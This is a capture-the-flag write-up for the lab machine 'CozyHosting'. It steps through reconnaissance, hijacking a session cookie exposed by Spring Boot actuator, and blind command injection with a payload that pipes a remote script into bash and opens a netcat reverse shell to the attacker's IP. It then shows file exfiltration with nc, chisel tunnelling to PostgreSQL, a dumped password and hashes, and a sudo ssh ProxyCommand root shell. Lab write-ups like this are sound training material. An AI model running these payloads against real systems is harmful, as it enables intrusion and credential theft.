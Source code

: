 ## CozyHosting

### Lab Details 

- Difficulty: Easy
- Type:Web App, Cookie Hijack, SSRF, Postgre, Linux

#### Initial Foothold 
1. Scan the target
- Run nmap
```
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp    open     http    syn-ack     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
10207/tcp filtered unknown no-response
11512/tcp filtered unknown no-response
24704/tcp filtered unknown no-response
55229/tcp filtered unknown no-response
58922/tcp filtered unknown no-response
65225/tcp filtered unknown no-response
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19

```
2. Check web app (port 80) for vulnerability
- need to add domain name to `/etc/hosts`
- has login function
- scan for directories
```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt 
<snip>
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 220ms]
admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 654ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 544ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 304ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 428ms]
```
- scan for subdomain, no subdomain found
```
$ ffuf -w ./subdomains-top1million-20000.txt -u http://10.10.11.230 -H "HOST: FUZZ.cozyhosting.htb" -fc 301
```
- check for /.git and error page contains `whitelabel,` which is suggests that the application is using springboot framework
- scan for springboot specific directories
```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt 
<snip>
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1038ms]
actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 1040ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1039ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 1149ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 1151ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 1149ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 1051ms]
actuator/sessions       [Status: 200, Size: 98, Words: 1, Lines: 1, Duration: 1693ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 812ms]
<snip>
```
- /actuator/sessions endpoint might contain session info of logged in user
- upon on checking the endpoint user cookie `kanderson` can be found 
	```{"8EC5A695FEB440B689ED58B54544692E":"kanderson"}```
- we can try hijack user `kanderson`'s cookie by creating a new entry in cookie in developer mode
```
Name:      Value: 
JSESSIONID 516838480863572275B7355420CD29EC
```
- refresh the login page and we are logged in as `kanderson`

##### SSRF
- after login connection settings can be found at the bottom of the page
- we can try test for SSRF vunerabilities
-  both input field does not output any direct information from the server which mean the vulnerability might be blind
- we can test it with `curl` to see if the remote server make requests to attacker
- one thing to note is that based on the input restriction we can deduce that the hostname field is not vulnerable and username field does not allow spaces to be entered
![[session hijack.png]]
- since space is not allowed we could try using `${IFS}` to substitute for white space  in bash  
- below is an example of the payload 
```
test;curl${IFS}http://10.10.16.20:8000/script.sh|bash;

#where script.sh contains 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.20 4444 >/tmp/f
```
![[SSRF payload.png]]
#### Lateral Movement (If any)
- once we have received the reverse shell, running `whoami` shows we are user `app` and in the `/app` directory
- `/app` directory contains a file named `cloudhosting-0.0.1.jar`
- we can use `jar` command to de-archive the `jar` file
- need to transfer the file to attacker
```
## on remote
app@cozyhosting:/app$ nc -lvnp 9001 < cloudhosting-0.0.1.jar
nc -lvnp 9001 < cloudhosting-0.0.1.jar
Listening on 0.0.0.0 9001
Connection received on 10.10.16.20 47022

## on attacker
nc 10.10.11.230 9001 > received-file.txt
```
- once we have the `jar` file, we can either extract a single file or unzip it 
- after we have unzipped the file, we can search for files that may contain sensitive information such as `application.properties`
```
$ find ./ -name 'application.properties' 2>/dev/null
./BOOT-INF/classes/application.properties

$ cat ./BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
- in `application.properties` contains postgresql connection detail
- connection string specifies that the postgres is running on localhost on port 5432
- we can perform local port forwarding to the attacker from remote and search for credentials
```
## on target
app@cozyhosting:/tmp$ /tmp/chisel server --socks5 --port 51234

## on attacker
$ ./chisel client 10.10.11.230:51234 127.0.0.1:5432:127.0.0.1:5432

$ psql -h localhost -U postgres               
Password for user postgres: 
psql (17.4 (Debian 17.4-1), server 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=# \list
postgres=# \c cozyhosting
psql (17.4 (Debian 17.4-1), server 14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# TABLE users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
- in the cozyhosting database contains the admin credential hash
- we can decrypt this using online tools like: https://hashes.com/en/decrypt/hash
#### Privilege Escalation
- login to remote with admin credential 
- run `sudo -l`
- user is able to ssh as root
- `gtfobins` has a command that spawns interactive root shell through ProxyCommand 
```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```

#### Resources
- Springboot enum wordlist: https://git.selfmade.ninja/zer0sec/SecLists/-/blob/eee1651de7906112719066540ca2c5bf688cf9f2/Discovery/Web-Content/spring-boot.txt
- `gtfobins`: https://gtfobins.github.io/gtfobins/ssh/
#### Lesson Learned
- Scan with different wordlists when more information is present, i.e. springboot specific wordlists
